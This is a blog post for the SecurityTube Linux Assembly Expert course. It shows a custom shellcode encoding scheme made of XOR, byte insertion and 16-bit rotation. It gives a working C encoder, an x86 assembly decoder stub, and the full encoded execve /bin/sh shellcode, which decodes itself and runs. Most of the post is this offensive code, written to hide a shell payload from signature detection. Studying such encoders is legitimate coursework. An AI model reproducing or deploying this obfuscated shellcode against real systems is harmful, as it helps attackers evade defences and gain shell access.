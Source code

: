 ```yaml
---
comments: true
date: 2014-04-10
layout: post
title: 'SLAE Assignment 4: Custom Enc. Schema'
subtitle: '4th assignment of the SLAE'
---
```


This is the fourth of the seven assignment necessary to accomplish the [SecurityTube Linux Assembly Expert](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html) certification. The instructions for this assignment are:

  1. Create a custom encoding schema like "insertion encoder"

  2. Create a working demo using execve-stack as the shellcode to encode, decode and run with the created schema

The custom encoding schema that I chose to create works as follow:

  1. The execve shellcode is encoded with XOR

  2. The result will be encoded using the insertion encoder with an incrementing value

  3. Every 32 bits the above result will be rotated (left or right, you choose) of 16 bits.

To encode the execve shellcode, like I wrote above, I developed the following C program:

	//Description:	Assignment #4 (PoC of Custom_Encoding_Schema)
	//Author:	Paolo Stivanin <https://github.com/paolostivanin>
	//SLAE ID:	526

	#include <stdint.h>
	#include <string.h>
	#include <stdio.h>
	#include <stdlib.h>

	#define ROL 0x00
	#define ROR !ROL

	void concatenate(uint8_t [], uint32_t);
	void rotate(uint32_t, uint32_t, uint32_t);
	void split_uint32(uint32_t);

	uint8_t *finalShellcode;
	uint32_t counter = 0;

	int main(void){
		uint8_t execveShellcode[] = {0xeb,0x25,0x5e,0x89,0xf7,0x31,0xc0,0x50,0x89,0xe2,0x50,0x83,0xc4,0x03,0x8d,0x76,0x04,0x33,0x06,0x50,0x31,0xc0,0x33,0x07,0x50,0x89,0xe3,0x31,0xc0,0x50,0x8d,0x3b,0x57,0x89,0xe1,0xb0,0x0b,0xcd,0x80,0xe8,0xd6,0xff,0xff,0xff,0x2f,0x2f,0x62,0x69,0x6e,0x2f,0x73,0x68};
		uint8_t xorByte = 0x1c;
		uint8_t insertByte = 0xb2;

		size_t LEN=sizeof(execveShellcode);
		uint8_t xorWithInsertion[LEN*2];
		uint32_t i, j=0;

		restart:
		for(i=0; i<LEN; i++){
			if(execveShellcode[i] == xorByte){
				xorByte += 1;
				goto restart;
			}
		}
		for(i=0; i<LEN; i++){
			execveShellcode[i] ^= xorByte;
		}

		printf("XOR(Shellcode) using 0x%02x:\n", xorByte);
		for(i=0; i<LEN; i++){
			if(i==LEN-1) printf("0x%02x", execveShellcode[i]);
			else printf("0x%02x,", execveShellcode[i]);
		}
		
		for(i=0; i<LEN*2; i++){
			xorWithInsertion[i] = execveShellcode[j++];
			xorWithInsertion[++i] = insertByte++;
		}
		printf("\n\nINSERTION(XOR(Shellcode)):\n");
		for(i=0; i<LEN*2; i++){
			if(i==(LEN*2)-1) printf("0x%02x", xorWithInsertion[i]);
			else printf("0x%02x,", xorWithInsertion[i]);
		}	

		printf("\n\nROL16(XOR(INSERTION(Shellcode))):\n");

		finalShellcode = malloc(sizeof(xorWithInsertion));
		concatenate(xorWithInsertion, sizeof(xorWithInsertion));

		for(i=0; i<LEN*2; i++){
			if(i==(LEN*2)-1) printf("0x%02x", finalShellcode[i]);
			else printf("0x%02x,", finalShellcode[i]);
		}
		printf("\n");

		free(finalShellcode);

		return 0;
	}
		
	void concatenate(uint8_t arr[], uint32_t size){
	   	if(size % 4 != 0){
	   		printf("Size must be a multiple of 4\n");
	   		return;
	   	}
	   
	   	uint32_t i, value = 0;
		
	   	for(i=0;i<size;i++){
	   		value = value^arr[i];
	   		if(i%4 == 3){
	   			rotate(value, 16, ROL);
	   			value = 0;
	   		}
	   		else value = value<<8;
	   	}
	}
		
	void rotate(uint32_t input, uint32_t bits, uint32_t direction){
		uint32_t output;
		
		if(direction == ROL){
			output = input << (bits % (8 * sizeof(uint32_t)));
			output |= input >> ((8 * sizeof(uint32_t)) - bits % (8 * sizeof(uint32_t)));
		}
		else
		{
			output = input >> (bits % (8 * sizeof(uint32_t)));
			output |= input << ((8 * sizeof(uint32_t)) - bits % (8 * sizeof(uint32_t)));
	   	}
	   	split_uint32(output);
	}
		
	void split_uint32(uint32_t splitMe){
	   	uint32_t j;
	   	uint8_t b[4];
	   	b[0] = (splitMe >> 24);
	   	b[1] = (splitMe >> 16) & 0xff;
	   	b[2] = (splitMe & 0xffff) >> 8;
	   	b[3] = (splitMe & 0xff);
	   	for(j=0; j<4; j++){
	   		finalShellcode[counter++] = b[j];
	   	}
	}


And this is the shellcode used to decode and execute the original execve shellcode:

	;Description:	Assignment #4 (Custom_Encoding_Schema, 82 (decoder) + 104 (EncodedShellcode) bytes)
	;Shellcode:		\xeb\x4b\x5e\x31\xc0\x31\xdb\xb1\x0d\x31\xd2\x8a\x26\x8a\x46\x01\xc1\xc0\x10\x8a\x66\x02\x8a\x46\x03\x83\xc6\x04\x8a\x3e\x8a\x5e\x01\xc1\xc3\x10\x8a\x7e\x02\x8a\x5e\x03\x83\xc6\x04\x88\xe6\xc1\xc0\x10\x88\xf0\xc1\xc0\x10\x88\xfe\xc1\xc3\x10\x88\xf3\x66\x89\xd8\x35\x1c\x1c\x1c\x1c\x50\xfe\xc9\x75\xc0\xff\xe4\xe8\xb0\xff\xff\xff\x74\xe5\x6f\xe4\x33\xe3\x72\xe2\x75\xe1\x7e\xe0\x33\xdf\x33\xde\xe3\xdd\xe3\xdc\xe3\xdb\xca\xda\xf4\xd9\x9c\xd8\xd1\xd7\x17\xd6\xac\xd5\xfd\xd4\x95\xd3\x4b\xd2\x27\xd1\x91\xd0\x4c\xcf\xdc\xce\x2d\xcd\xff\xcc\x95\xcb\x4c\xca\x1b\xc9\x2f\xc8\xdc\xc7\x2d\xc6\x4c\xc5\x1a\xc4\x2f\xc3\x18\xc2\x6a\xc1\x91\xc0\x1f\xbf\xd8\xbe\x9f\xbd\x4c\xbc\xfe\xbb\x95\xba\x4c\xb9\xdc\xb8\x2d\xb7\xeb\xb6\x95\xb5\x42\xb4\x39\xb3\xf7\xb2
	;Author:	Paolo Stivanin <https://github.com/paolostivanin>
	;SLAE ID:	526

	global _start
	section .text
	_start:
		jmp short call_shellcode

	decoder:
		pop esi
		xor eax,eax
		xor ebx,ebx
		mov cl,13	;This is the counter. The shellcode is 104 bytes and this program read 8 byte every cycle so 104/8=13
		xor edx,edx
	ll:	mov ah, BYTE [esi]
		mov al, BYTE [esi +1]
		rol eax,16
		mov ah, BYTE [esi +2] 
		mov al, BYTE [esi +3]
		add esi,4
		mov bh, BYTE [esi]
		mov bl, BYTE [esi +1]
		rol ebx,16
		mov bh, BYTE [esi +2]
		mov bl, BYTE [esi +3]
		add esi,4

		mov dh,ah
		rol eax,16
		mov al,dh
		rol eax,16

		mov dh,bh
		rol ebx,16
		mov bl,dh

		mov ax,bx
		xor eax,0x1c1c1c1c
		push eax
		dec cl
		jnz ll
		jmp esp	

	call_shellcode:
		call decoder
		EncodedShellcode db 0x74,0xe5,0x6f,0xe4,0x33,0xe3,0x72,0xe2,0x75,0xe1,0x7e,0xe0,0x33,0xdf,0x33,0xde,0xe3,0xdd,0xe3,0xdc,0xe3,0xdb,0xca,0xda,0xf4,0xd9,0x9c,0xd8,0xd1,0xd7,0x17,0xd6,0xac,0xd5,0xfd,0xd4,0x95,0xd3,0x4b,0xd2,0x27,0xd1,0x91,0xd0,0x4c,0xcf,0xdc,0xce,0x2d,0xcd,0xff,0xcc,0x95,0xcb,0x4c,0xca,0x1b,0xc9,0x2f,0xc8,0xdc,0xc7,0x2d,0xc6,0x4c,0xc5,0x1a,0xc4,0x2f,0xc3,0x18,0xc2,0x6a,0xc1,0x91,0xc0,0x1f,0xbf,0xd8,0xbe,0x9f,0xbd,0x4c,0xbc,0xfe,0xbb,0x95,0xba,0x4c,0xb9,0xdc,0xb8,0x2d,0xb7,0xeb,0xb6,0x95,0xb5,0x42,0xb4,0x39,0xb3,0xf7,0xb2

Please note that `EncodedShellcode` **must be wrote in reverse order**. To perform this task, you can use [this small program](https://github.com/paolostivanin/SLAE/blob/master/utility/for-shellcode/reverse-shellcode.c) which I have developed.

Using libemu I made a graph of the execution flow of the above shellcode:

[![graph_assign4]({{ site.baseurl }}/images/2014/04/graph_assign4-551x1024.png)]({{ site.baseurl }}/images/2014/04/graph_assign4.png)

It works ;-)

[![assign4]({{ site.baseurl }}/images/2014/04/assign4-1024x525.png)]({{ site.baseurl }}/images/2014/04/assign4.png)

All the sources can be found in my [Github page](https://github.com/paolostivanin/SLAE/).


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification: [http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)


**Student ID: SLAE-526**
